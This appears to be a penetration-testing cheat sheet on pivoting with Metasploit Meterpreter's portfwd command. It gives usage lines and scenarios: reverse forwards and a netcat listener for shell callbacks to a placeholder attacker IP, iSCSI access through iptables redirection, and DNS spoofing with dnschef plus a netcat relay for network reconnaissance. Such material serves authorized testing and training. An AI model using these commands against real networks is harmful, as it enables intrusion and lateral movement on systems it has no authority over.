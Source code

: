 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - port-forward
  - scenarios
  - metasploit-framework
  - cross-platform
credits:
  - Abed Samhuri
  - Borja Merino
---
```

# Metasploit

## 01 - Help Menu

```
meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]


OPTIONS:

    -h   Help banner.
    -i   Index of the port forward entry to interact with (see the "list" command).
    -l   Forward: local port to listen on. Reverse: local port to connect to.
    -L   Forward: local host to listen on (optional). Reverse: local host to connect to.
    -p   Forward: remote port to connect to. Reverse: remote port to listen on.
    -r   Forward: remote host to connect to.
    -R   Indicates a reverse port forward.
```

## 02 - Usage

Bind port from the target.

```
meterpreter > portfwd add -l -r <target_IP> <local_port> -p <bind_port>
```

Reverse port forwarding from the compromised target.

```
meterpreter > portfwd add -R -L <attacker_IP> -r <compromised_target_IP> -l <local_port> -p <bind_port>
```

List active port forwarding rules.

```
meterpreter > portfwd list
```

Remove port forward rule.

```
meterpreter > portfwd delete -r <target_IP> -l <local_port> -p <bind_port>
```

Remove all port forwarding rules

```
meterpreter > portfwd flush
```

## 03 - Scenarios

### 3.1 - Shell Handler Reverse Callback Session

```
meterpreter > portfwd add -R -L <attacker_IP> -l 5986 -p 5986

$ nc -lnvp 5986
```

### 3.2 - Bind port and exploit

```
meterpreter > portfwd add -r <target_IP> -l <local_port> -p <bind_port>
```

### 3.3 - Bind ISCSI port and mount it

Refer to this [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Enumeration/Cross Platform/File Server/ISCSI|section]] after a successful port forwarding.

```
meterpreter > portfwd add -r <target_IP> -l <local_port> -p 3260

# iptables -t nat -A OUTPUT -p tcp --dport 3260 -d <target_IP> -j DNAT --to-destination 127.0.0.1:<local_port>
```

### 3.4 - Reverse Bind Port Forwarding

This method is similar to this [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x06 - Pivot/Cross Platform/P2P Callback Implants/Metasploit|section]] but solely used with `portfwd` by binding it to a compromised target and can be used with not just a shell handler (or C2 frameworks), but with hosting a web server, FTP, etc.

```
meterpreter > portfwd add -R -L <attacker_IP> -l <local_port> -p <bind_port> -r <compromised_target_IP>
```

### 3.5 - DNS Port Forwarding To Perform Quick Recon

> [!NOTE]
> You must be connected in a **LAN (Local Area Network)** as this doesn't require SOCKS proxy server since this scenario does not involve when it's connected from outside the internet.

TODO: Refer to the links (under Scenarios section) with [[DNSChef]] or use just netcat to listen port 53 instead

```
meterpreter > portfwd add -r <target_IP> -l <local_port> -L 127.0.0.1 -p 53
```

```
root@hackware-os:~# dnschef --fakedomains <domain>.<tld> --fakeip '<attacker_IP>' fakealias www.<domain>.<tld> --fakens ns.<domain>.<tld> -p <local_port> -q
```

```
root@hackware-os:~# mkfifo /tmp/fifo

root@hackware-os:~# nc -lup 53 < /tmp/fifo | nc localhost 6667 > /tmp/fifo

root@hackware-os:~# cat /etc/resolv.conf
..[omitted]..
nameserver 127.0.0.1

$ cat /etc/dnsmasq.conf
..[omitted]..
```

Scan the network via DNS lookup.

```
$ for ip in 192.168.1.{1..254}; do $(host $ip 127.0.0.1); done

$ nmap -sL --dns-servers 127.0.0.1 192.168.1.0/24
```

---
## References

### Metasploit Unleashed

- [Metasploit Unleashed: Portfwd](https://www.offsec.com/metasploit-unleashed/portfwd/)

### RawSec

- [noraj: Overview of Network Pivoting and Tunneling](https://blog.raw.pm/en/state-of-the-art-of-network-pivoting-in-2019/)

### Scenarios

#### MrAcouch

- [MrAcouch:  Basic Pivoting Techniques - Putting it all together (meterpreter and covenant) ](https://www.youtube.com/watch?v=DbC195f288c)

#### Abed Samhuri

- [Abed Samhuri: How to Implement Pivoting and Relaying Techniques Using Meterpreter](https://medium.com/axon-technologies/how-to-implement-pivoting-and-relaying-techniques-using-meterpreter-b6f5ec666795)

#### Hacking Tutorials

- [Hacking Tutorials: Port forwarding - Accessing local ports remotely](https://www.hackingtutorials.org/metasploit-tutorials/metasploitable-3-port-forwarding/)

#### Security Art Work

- [Security Art Work: DNS Port Forwarding con Meterpreter](https://www.securityartwork.es/2011/06/01/dns-port-forwarding-con-meterpreter/)